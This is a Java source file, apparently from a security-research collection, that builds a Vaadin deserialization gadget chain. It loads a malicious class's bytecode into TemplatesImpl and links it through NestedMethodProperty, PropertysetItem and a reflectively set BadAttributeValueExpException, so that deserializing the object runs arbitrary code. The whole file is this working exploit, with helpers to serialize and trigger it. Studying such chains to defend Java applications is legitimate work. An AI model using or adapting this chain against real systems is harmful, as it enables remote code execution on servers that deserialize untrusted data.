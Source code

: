 ‍

```java
package Vaadin;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.vaadin.data.util.NestedMethodProperty;
import com.vaadin.data.util.PropertysetItem;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class Vaadin_Ser {

    public static void  serialize(Object obj) throws IOException {
        ObjectOutputStream oos =new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {

        // 生成包含恶意类字节码的 TemplatesImpl 类
        byte[] payloads = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][] {payloads});
        setFieldValue(templates, "_name", "zjacky");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        PropertysetItem pItem = new PropertysetItem();

        NestedMethodProperty nmprop = new NestedMethodProperty(templates, "outputProperties");
        pItem.addItemProperty("outputProperties", nmprop);

        // 实例化 BadAttributeValueExpException 并反射写入
        BadAttributeValueExpException exception = new BadAttributeValueExpException("zjacky");
        Field field     = BadAttributeValueExpException.class.getDeclaredField("val");
        field.setAccessible(true);
        field.set(exception, pItem);

//        serialize(exception);
unserialize("ser.bin");

    }
}

```